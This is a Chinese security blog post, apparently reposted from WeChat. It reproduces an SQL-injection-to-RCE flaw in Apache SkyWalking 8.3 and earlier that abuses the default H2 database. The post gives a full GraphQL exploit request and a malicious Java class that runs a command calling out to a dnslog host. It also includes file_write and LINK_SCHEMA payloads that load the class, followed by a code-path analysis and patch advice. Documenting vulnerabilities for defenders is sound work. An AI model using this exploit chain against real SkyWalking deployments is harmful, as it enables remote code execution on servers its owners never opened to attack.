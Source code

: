 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/69JLJs1PW74U0sW5M6RjHw)

  

**上方蓝色字体关注我们，一起学安全！**

**作者：****microworld****@Timeline Sec  
**

**本文字数：1429**

**阅读时长：4～5min**

**声明：请勿用作违法用途，否则后果自负**

  

**0x01 简介**  

  
  

Apache SkyWalking 是一款应用性能监控（APM）工具，对微服务、云原生和容器化应用提供自动化、高性能的监控方案。项目于 2015 年创建，并于 2017 年 12 月进入 Apache 孵化器。

  

Apache SkyWalking 提供了分布式追踪，服务网格（Service Mesh）遥感数据分析，指标聚合和可视化等多种能力。项目覆盖范围，从一个单纯的分布式追踪系统，扩展为一个可观测性分析平台（observability analysis platform）和应用性能监控管理系统。

  

**0x02 漏洞概述**  

  
  

基于CVE-2020-9483、CVE-2020-13921，由于修补并不完善，导致被发现还存在一处SQL注入漏洞。结合 h2 数据库（默认的数据库），可以导致 RCE 。

  

**0x03 影响版本**  

  
  

Apache Skywalking <= 8.3  

  

**0x04 环境搭建**  

  
  

利用vulhub的环境：  

```
`wget https://github.com/vulhub/vulhub/blob/master/skywalking/8.3.0-sqli/docker-compose.yml``docker-compose up -d`
```

  

然后访问8080端口，出现如下证明正常启动服务  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image.png")

  

**0x05 漏洞复现**  

  
  

### **1、报错**  

对于vulhub提供的请求包，需要做些调整，请求如下：

```
`POST /graphql HTTP/1.1``Host: 192.168.18.154:8080``Cache-Control: max-age=0``Upgrade-Insecure-Requests: 1``User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36``Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9``Accept-Encoding: gzip, deflate``Accept-Language: zh-CN,zh;q=0.9``Connection: close``Content-Type: application/json``Content-Length: 554``{` `"query":"query queryLogs($condition: LogQueryCondition) {` `queryLogs(condition: $condition) {` `total` `logs {` `serviceId` `serviceName` `isError` `content` `}` `}``}``",` `"variables":{` `"condition":{` `"metricName":"INFORMATION_SCHEMA.USERS union all select h2version())a where 1=? or 1=? or 1=? --",` `"endpointId":"1",` `"traceId":"1",` `"state":"ALL",` `"stateCode":"1",` `"paging":{` `"pageSize":10` `}` `}` `}``}`
```

  

成功报错：  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image.png")

  

### **2、RCE**

总的来说分为两步：

（1）利用file_write写入一个类

编写恶意类：

```
`import java.io.IOException;``public class evil {` `static {` `try {` `Runtime.getRuntime().exec("ping 7hmkm6.dnslog.cn");` `} catch (IOException e) {` `e.printStackTrace();` `}` `}` `public static void main(String[] args) {` `}``}`
```

  

生成恶意类：

```
javac evil.java -target 1.6 -source 1.6
```

  

转为hex：

```
`with open("evil.class","rb") as f:` `a=f.read()` `print(a.hex())`
```

  

写入类：  

```
INFORMATION_SCHEMA.USERS union  all select file_write('[替换为自己的hex编码结果]','evil.class'))a where 1=? or 1=? or 1=? --
```

  

（2）利用LINK_SCHEMA调用该类

```
INFORMATION_SCHEMA.USERS union  all select LINK_SCHEMA('TEST2','evil','jdbc:h2:./test2','sa','sa','PUBLIC'))a where 1=? or 1=? or 1=? --
```

  

有一点要记住：  

由于双亲委派机制，导致加载一次恶意类之后，再去使用 link_schema 加载的时候无法加载。所以在实际使用的时候，需要再上传一个其他名字的恶意类来加载。

  

**即每次加载类，要替换名称。**

  

成功获取结果：  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image.png")

  

**0x06 漏洞分析**  

  
  

整个sql注入调用栈如下：  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image.png")

  

当请求/graphql路由时，会交由  

org.apache.skywalking.oap.query.graphql的dopost处理  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image.png")

  

dopost获取请求的json数据  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image.png")

  

因为是向querylogs发起查询请求  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image.png")

  

所以就走到  

org.apache.skywalking.oap.query.graphql.resolver的LogQuery.queryLogs的方法，返回时调用getQueryService().queryLogs方法  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image.png")

  

走到org.apache.skywalking.oap.server.core.query的LogQueryService类的queryLogs方法  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image.png")

  

通过调用getLogQueryDAO方法，获取一个ILogQueryDAO对象  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image.png")

  

进行计算该表达式可知，返回一个h2client  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image.png")

  

H2LogQueryDAO继承了ILogQueryDAO接口，所以最终走入H2LogQueryDAO类的queryLogs方法，拼接metricName  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image.png")

  

然后执行查询

```
 `try (ResultSet resultSet = h2Client.executeQuery(connection, buildCountStatement(sql.toString()), parameters` `.toArray(new Object[0]))) {` `while (resultSet.next()) {` `logs.setTotal(resultSet.getInt("total"));` `}` `}`
```

```
  

```

buildCountStatement将sql语句拼入select count：  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image.png")

  

我们执行h2Client.executeQuery()，便可以得到报错结果  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image.png")

  

最后回到org.apache.skywalking.oap.query.graphql的GraphQLQueryHandler类，将查询结果以json形式返回  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "image.png")

  

**0x07 修复方式**  

  
  
  

1、升级Apache Skywalking 到最新的 v8.4.0 版本。

2、将默认h2数据库替换为其它支持的数据库。

  

```
**参考链接：**
```

https://www.anquanke.com/post/id/231753  

  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行